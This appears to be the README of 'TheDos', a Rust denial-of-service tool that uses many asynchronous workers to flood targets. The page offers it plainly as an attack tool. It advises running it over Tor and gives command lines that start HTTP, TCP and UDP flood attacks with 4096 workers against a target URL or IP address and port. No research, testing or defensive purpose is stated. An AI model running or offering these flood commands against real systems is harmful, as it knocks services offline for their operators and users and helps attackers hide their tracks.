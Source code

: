 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/punch.png"
</p>


## TheDos

Attack networks asynchronously by getting help of workers! 


## Usage

> Run it over TOR

* start http attack with 4096 workers: ```cargo run -- --http-addr http://example.app --workers 4096```

* start tcp attack with 4096 workers: ```cargo run -- --tcp-addr 93.184.216.34:24535 --workers 4096```

* start udp attack with 4096 workers: ```cargo run -- --udp-addr 93.184.216.34:24535 --workers 4096```